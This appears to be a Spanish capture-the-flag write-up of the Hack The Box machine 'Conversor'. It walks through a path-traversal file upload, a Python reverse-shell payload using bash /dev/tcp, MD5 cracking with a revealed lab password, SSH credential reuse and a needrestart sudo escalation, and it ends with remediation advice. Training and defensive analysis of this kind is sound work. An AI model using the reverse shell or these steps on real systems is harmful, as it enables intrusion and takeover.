> Todos los derechos reservados a la **Hack The Box LTD**.




> Resumen

- Explotación de `Path Traversañ` para obtener capacidad de `RCE`
-  Extracción y crackeo de hashes `MD5` mediante `Hashcat`
- Reutilización de credenciales para el acceso por `SSH`
- Aprovechamiento de SUID del comando `needrestart` (`CVE-2024-48990`)
- Recomendaciones de seguridad para prevenir y mitigar las vulnerabilidades de esta máquina.



#### Habilidades Empleadas

  
- Enumeración de puertos
- Uso de comandos básicos basados en GNU/Linux
- Explotación por medio de  UFU y RCE
- Búsqueda y uso de CVE Crítico
- Aprovechamiento de SUID vulnerable

#### Herramientas Utilizadas

- Nmap
- Caido
- Netcat
- Strings
- Hashcat
- SSH
- sudo
- needrestart

---
## Escaneo y Análisis de Vulnerabilidades

La plataforma `HTB` nos provee la `IP` objetivo, la cual es la `10.129.12.212`, dirección capaz de ser alcanzada conectándonos a través de la `VPN` que nos asigna la plataforma.

### Reconocimiento de Puertos

Realizamos una enumeración  de los 65535 puertos `TCP` del sistema a través de la herramienta `Nmap`, enfocándonos en los de estado abierto:

``` bash
nmap -p- --min-rate 5000 -Pn -n -oN nmap-scan 10.129.12.212
```



> <= Importante =>
> En entornos empresariales, enviar grandes cantidades de paquetes `TCP`, `ICMP` o `UDP` suele provocar un congestionamiento  de la red, provocando un ataque `DoS` accidental o ser bloqueados por sistemas de monitorización.

### Enumeración de Puertos

Observamos que los puertos 22 `(SSH)` y 80 `(HTTP)` se encuentran activos. A partir e este punto podemos enumerar los servicios a través de `Nmap`. 

``` bash
nmap -sCV -p22,80 -oN ports-enumeration 10.129.12.212
```



Tras un análisis de la enumeración de puertos, podemos agrupar los resultados en la siguiente tabla:

| Puerto | Servicio |                            Versión                            |                                                                   Notas                                                                   |
| :----: | :------: | :-----------------------------------------------------------: | :---------------------------------------------------------------------------------------------------------------------------------------: |
|   22   |   ssh    | OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0) | Versión desactualizada propensa al **CVE-2016-6210** y al **CVE-2015-5600**, aunque para esta máquina _hay otra aproximación la objetivo_ |
|   80   |   http   |                      Apache httpd 2.4.52                      |                     El objetivo posiblemente está corriendo un servicio `Apache` desactualizado para un servidor web                      |
> Herramientas como `whatweb` (Comando) o `Wappalyzer` (Extensión del navegador) son de gran utilidad cuando deseamos conocer únicamente las tecnologías que hay en un servicio http.

A partir de la tabla podemos definir posibles vectores de aproximación al objetivo:

> - Puerto 22 (SSH): ervicio `OpenSSH` desactualizado, siendo usado posiblemente por un `Ubuntu 22.04 LTS` (Jammy Jellyfish). Posible enumeración de usuarios a través del `CVE-2016-6210` y ataque de tipo `DoS` (`CVE-2015-5600`). A simple vista no son vías potenciales de acceso directo al equipo.
>
> - Puerto 80 (HTTP): Página web de código abierto hosteada por medio de un servicio `Apache httpd 2.4.52` desactualizado. Por medio de una enumeración web es posible encontrar otras vulnerabilidades.

### Enumeración Web

Previo a acceder a la web del objetivo `Conversor`, se realiza un `mapping` de la IP objetivo a la página de manera temporal. Esto es posible modificando el archivo `/etc/hosts`:

```bash
sudoedit /etc/hosts
```



Tras acceder a la página es posible encontrar un panel de sesión. Para acceder creamos un usuario y contraseña.

La página con la dirección `index.html` es una sección donde se permiten subir archivos con extensión `.xml` y `.xslt`, lo cual por si solo se considera un vector de ataque si existe una mala implementación (`CWE-91` y/o `CWE-611`).



> Es de destacar que permitir a los usuarios subir archivos `.XSLT` es considerado una posible brecha de seguridad grave, pues un atacante puede insertar código malicioso e insertar referencias a entidades externas a la página (Hágase especial énfasis en las vulnerabilidades `XXE`).

Si nos dirigidos a la dirección `/about` observamos que es posible descargar el código fuente de la página:


> Esto nos permite analizar la arquitectura de la página web para buscar fallas de seguridad (Como lo sería identificar una falta de sanitización de los archivos subidos por el usuario).

Tras haber descargado y analizado los archivos `app.py` e `install.md` podemos destacar 2 fallas críticas de seguridad:

|                                                                 `Unrestricted File Upload` (app.py)                                                                 |                                       `Cronjob` (install.md)                                       |
| :-----------------------------------------------------------------------------------------------------------------------------------------------------------------: | :------------------------------------------------------------------------------------------------: |
| No se realizan validaciones ni sanitizaciones a los nombres de los archivos subidos, permitiendo una manipulación de rutas (Técnica conocida como `Path Traversal`) | Cronjob encargado de ejecutar _todos_ los códigos `python` en el directorio `/scripts` cada minuto |




Estas 2 vulnerabilidades podrían permitir una un `RCE` si un atacante fuese capaz de subir un archivo a la dirección `/scripts`.

Como primer paso, intentamos comprobar si es posible realizar un `Path Traversal` a través de peticiones `POST` modificando el parámetro `filename`; para ello, subimos un archivo vacío para intentar modificar una imagen en la dirección `conversor.htb/about`.

Utilizando la herramienta `Caido`, interceptamos la petición y la manipulamos:



> Modificamos el nombre del archivo, de tal manera que pueda desplazarse entre directorios hasta llegar a la sección `/about` y reemplazar la imagen `arturo.png`.

Tras enviar la petición, observamos que fue posible modificar una imagen en la sección `/about`:


## Explotación

A partir de este punto nos enfocamos en intentar acceder a través de diversos métodos al sistema del equipo `Conversor`.

### Web

Tras comprobar la existencia de un vector de ataque prometedor, subimos una `revershell` escrita en Python, modificando la ruta para que nuestro código malicioso sea almacenado en el directorio `/scripts`.

```python
#!/usr/bin/env python3

import os

os.system("bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'")
```




Utilizamos la herramienta `netcat` para entrar en modo escucha en el puerto `4444`. Tras esperar unos segundos, se entabla una conexión con el servidor víctima:

```bash
nc -lvnp 4444
```



Tras obtener acceso, es posible encontrar la base de datos del servidor en la dirección `/var/www/conversor.htb/instance/users.db`. Esta posee la clave de acceso para el usuario `fismathack`, _hasheada_ a través del algoritmo `MD5` (A día de hoy vulnerable).



Por medio de `hashacat` podemos _crackear_ el hash a través de un `Dictionary Attack` de la siguiente manera:

``` bash
hashcat -m 0 -a 0 hash-fismathack.txt wordlist.txt
```
> - `-m`: especifica el tipo de algoritmo utilizado (En este cas, MD5)
> - `-a`: específica el método de ataque (En este caso, ataque por diccionario)

### SSH

`hashcat` nos devuelve la contraseña del usuario, que es `Keepmesafeandwarm`. Tras ello, podemos intentar comprobar si existe una reutilización de credenciales a través del servicio `SSH`.

```bash
ssh fismathack@conversor.htb #Keepmesafeandwarm
```



Tras acceder como el usuario `fismathack`, comprobamos si tenemos capacidad de ejecutar binarios con permiso `SUID`.

```bash
sudo -l
```



### CVE-2024-48990

Observamos que el usuario `fismathack` puede ejecutar `needrestart` como administrador; una búsqueda rápida a través e la página `GTFObins` indica que este binario puede ejecutar código `perl` malicioso almacenado en un archivo con la extensión `.conf`.



Creamos un archivo de configuración (Por ejemplo, `test.conf`). De esta manera, al pedirle a `needrestart` que cargue un archivo de _configuración adicional_, ejecute una `shell` heredada con permisos del usuario `root`. 



Ahora tenemos una sesión de `bash` como el usuario `root`, tomando control total del sistema `Conversor`.

## Impacto

Un atacante con permisos de un usuario común como `www-data` o `fismathack` tiene capacidades de:

> - Capacidad de lectura de archivos de la aplicación web en el directorio `/var/www/conversor.htb`.
> - Acceso a la base de datos `users.db`, exponiendo credenciales de usuario.
> - Capacidad de ejecutar `scripts` y establecer sesiones persistentes.
> - Capacidad de enumerar otros sistemas de la red y de realizar movimiento lateral.

El atacante con permisos de administrador obtiene las capacidades de:

> - Entablar persistencia entre sesiones y controlar el tráfico del servidor.
> - Manipulación de `cronjobs` para ejecución de tareas maliciosas.
> - Instalación de `backdoors` a nivel de kernel.

# Resumen

La máquina `Conversor` presentó una serie de vulnerabilidades críticas (**No todas expuestas en este WriteUp**) tales como realizar un `Path Traversal` y posteriormente un `RCE`, así como que se presentó un `Credential Reuse` y explotación de un `SUID`, entre otras más. Por ello,  continuación se expondrán los descubrimientos, su gravedad y pautas para evitar esta clase de fallas de seguridad.

### Descubrimientos


> Carga de archivos sin restricciones y `Path Traversal`

| ID  |                           **Vulnerabilidad**                            |                  **Gravedad**                  |                                                                             Descripción                                                                              |
| :-: | :---------------------------------------------------------------------: | :--------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF1 | CWE-35 y CWE-434: Path Traversal y Subida de Archivos Sin Restricciones |  Crítica  | Falta de sanitización en el parámetro `filename` en el código `app.py`, permitiendo sobrescritura de archivos y alojamiento de código malicioso en rutas arbitrarias |

 
Medidas inmediatas

> - Implementar funciones que eliminen caracteres que permitan saltos de directorio (`../`) en el nombre del archivo subido.
> - Implementar un entorno aislado dentro de un contenedor  o entorno _sandbox_.
> - Validar estrictamente las extensiones, contenido (`Magic Bytes`) y estructura de los archivos subidos (`.xml` y `.xslt`).




> Explotación de `XXE` en archivos `.xslt`

| ID  |                             **Vulnerabilidad**                              |                  **Gravedad**                  |                                                                    Descripción                                                                     |
| :-: | :-------------------------------------------------------------------------: | :--------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF2 | CWE-611: Restricción Incorrecta de las Referencias a Entidades Externas XML |  Crítica  | Procesamiento inseguro de archivos `.xslt`, permitiendo lectura y escritura de archivos del sistema, así como ejecución de comandos en el servidor |

 
Medidas inmediatas:

> - Aplicar un `parser` seguro al procesar archivos `.xslt`, utilizando medidas como `resolve_entities=False`, `no_network=True`.
> - Establecer un perfil de seguridad estricto, deshabilitando capacidades de lectura de archivos, de escritura y ejecución de comandos dentro del sistema y la red.




> `Dictionary Attack` contra algoritmo `MD5`

| ID  |                               **Vulnerabilidad**                               |               **Gravedad**               |                                   Descripción                                   |
| :-: | :----------------------------------------------------------------------------: | :--------------------------------------: | :-----------------------------------------------------------------------------: |
| MF3 | CWE-328 y CWE-522: Uso de Hash Débil y Protección de Credenciales Insuficiente |  Alta  | Credenciales expuestas en  `users.db` y contraseñas con un `hash` débil (`MD5`) |


 
Medidas inmediatas:

> - Utilizar funciones criptográficas de `hash` modernas y robustas (Como `Argon2id` o `SHA-512`).
> - Utilizar mecanismos de `salting` único y aleatorio por cada contraseña nueva generada por el usuario.




> Aprovechamiento de `SUID` en el comando `needrestart`

| ID  |             **Vulnerabilidad**             |                  **Gravedad**                  |                                                                       Descripción                                                                       |
| :-: | :----------------------------------------: | :--------------------------------------------: | :-----------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF4 | CWE-269: Gestión inadecuada de Privilegios |  Crítica  | El usuario local `fismathack` con capacidad de ejecutar `needrestart`, con capacidad de inyectar código `perl`, obteniendo una `shell` como `root`.<br> |


 

> Para mitigar las capacidades de un atacante de poder escalar privilegios, se insta a:
>
>- Remover permisos de ejecución como administrador al usuario `fismathack` para la ejecución de `needrestart` en el archivo `/etc/sudoers`.
>- En caso de ser estrictamente necesario, restringir el parámetro `-c`, o bien, permitiendo rutas de configuración absolutas, protegidas contra escritura para el usuario `fismathack`.




